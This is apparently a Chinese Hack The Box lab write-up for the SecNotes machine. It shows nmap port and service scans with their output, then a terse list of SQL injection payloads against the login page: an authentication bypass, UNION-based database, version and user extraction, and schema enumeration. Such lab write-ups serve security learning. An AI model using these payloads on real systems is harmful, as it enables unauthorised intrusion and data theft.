 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责

# 服务探测

查看开放端口
```
┌──(root💀kali)-[~/htb/SecNotes]
└─# nmap --open 10.10.10.97 -p-                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 22:58 EST
Nmap scan report for 10.10.10.97
Host is up (0.31s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 605.16 seconds

```

查看端口详细信息
```
┌──(root💀kali)-[~/htb/SecNotes]
└─# nmap -sV -Pn -A -O 10.10.10.97 -p 80,445,8808
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 23:36 EST
Nmap scan report for 10.10.10.97
Host is up (0.27s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-01-10T20:36:21-08:00
|_clock-skew: mean: 2h39m53s, deviation: 4h37m10s, median: -8s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-11T04:36:20
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   290.77 ms 10.10.14.1
2   290.96 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.25 seconds

```



admin' or 1=1 #

admin ' union select 1,2,3,4# 
2, 3 ,4

admin ' union select 1,database(),3,version()#  
secnotes, 3 ,8.0.11

admin ' union select 1,system_user(), 3 ,user()# 
secnotes@localhost,3,secnotes@localhost

admin' union select 1,2,3,'test' into OUTFILE ''#


admin' union select 1,2,3,group_concat(distinct table_schema) from information_schema.tables#

